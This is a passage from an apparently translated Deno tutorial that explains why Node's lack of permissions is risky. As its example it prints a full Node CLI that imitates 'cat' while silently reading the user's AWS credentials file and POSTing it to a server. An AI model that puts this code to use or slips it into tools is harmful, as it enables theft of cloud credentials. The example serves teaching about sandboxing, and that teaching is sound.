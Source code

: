```
$ deno run sample1.js
6

```

### 安全

你有没有注意到，有时当你在手机上安装一个应用程序时，当他们试图访问相机或磁盘中的特定文件夹时，你会被要求权限？这是为了确保您没有安装试图在您不知情的情况下访问敏感信息的应用程序。

使用 Node，您执行的代码不受您的控制。事实上，我们通常倾向于盲目地信任上传到 npm 的模块，但是你怎么能确定他们真的做了他们所说的事情呢？不可以！当然，除非您直接检查它们的源代码，这对于具有数万行代码的大模块来说是不现实的。

目前保护您数据的唯一安全层是您的操作系统；这将有助于普通用户访问操作系统敏感的数据(如 Linux 机器上的/etc 文件夹)，但访问其他资源(如通过网络发送请求或从环境变量中读取潜在的敏感信息)是完全允许的。因此，从技术上讲，您可以编写一个 Node CLI 工具来完成与`cat`命令一样的基本任务(读取文件内容，然后将其输出到标准输出),然后添加一些额外的代码来读取您的 AWS 凭证文件(如果有的话),并通过 HTTP 将其发送到另一个服务器，在那里您可以接收并存储它。

查看清单 [1-3](#PC13) 中的代码以获得完整的示例。

```
const  readFile  = require('fs').readFile
const  homedir = require('os').homedir
const  request = require('request')

const filename = process.argv[2]

async function  sendDataOverHTTP(data) {
   return request.post('http://localhost:8080/', {
       body: data
   }, (err, resp, body) => {
       console.log("--------------------------------------------------")
       console.log("-             STOLEN INFORMATION                 -")
       console.log(body)
       console.log("--------------------------------------------------")
   })
}

async function gatherAWSCredentials() {
   const awsCredsFile = homedir() + "/.aws/credentials"
   return readFile(awsCredsFile, async (err, cnt) => {
       if(err) {
           //ignore silently since we don't want anyone to know about it
           console.error(err)
           return;
       }
       return await sendDataOverHTTP(cnt.toString())
   })
}

readFile(filename, async (err, cnt) => {
   if(err) {
       console.error(err)
       exit(1)
   }
   await gatherAWSCredentials()
   console.log("==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====")
   console.log(cnt.toString())
   console.log("=============================================")
})

Listing 1-3Code for a CLI tool that steals private information

```
